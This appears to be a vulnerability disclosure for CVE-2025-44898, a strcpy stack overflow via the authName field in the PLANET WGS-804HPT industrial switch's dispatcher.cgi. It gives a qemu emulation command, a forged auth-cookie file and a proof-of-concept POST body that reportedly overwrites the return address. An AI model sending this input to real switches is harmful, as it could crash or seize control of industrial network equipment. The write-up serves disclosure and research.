



**Affected Product**: FW-WGS-804HPT

**Affected Firmware Versions**:  v1.305b241111

**Vulnerability Type**: Buffer Overflow

**CVE Identifier**: CVE-2025-44898

# FW-WGS-804HPT_v1.305b241111 introduced

The WGS-804HPT-V2 is a ruggedized industrial-grade Ethernet switch designed for harsh environments and mission-critical applications. As part of PLANET Technology's Industrial Automation Series, this 8-port managed switch combines Power over Ethernet (PoE+) capabilities with industrial durability, making it ideal for building automation, smart infrastructure, and IoT deployments.


Official Product Page: https://www.planet.com.tw/en/product/wgs-804hpt-v2


# web_aaa_loginAuthlistEdit_get-authName

 I discovered a  stack overflow vulnerability in the Planet router.

By analyzing the dispatcher file in the bin directory, I found that the function web_aaa_loginAuthlistEdit  contains a stack overflow vulnerability.

The stack overflow can be triggered by theauthName key value, which leads to a strcpy stack overflow.


In the main function, there is an account authentication detection. We create a cookie_0 in the tmp directory, with the content of "20 0 0", and its function is to create a cookie with sufficient permissions to access this route.

```json
20 0 0
```



# How can we simulate a router

```bash
sudo chroot . ./qemu-mips-static -E REQUEST_METHOD=POST -E HTTP_COOKIE='hid=0' -g 1234 -L ./lib ./dispatcher.cgi < poc
```

The content of the **poc** file is as follows:

```json
&cmd=6914&authName=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa

```


# Attack result


Through IDA, it can be seen that the stack space is 0x58.





Through the above image, we can see that we have overflowed to 0x388 and successfully hijacked the control flow. If necessary, more can be overflowed.
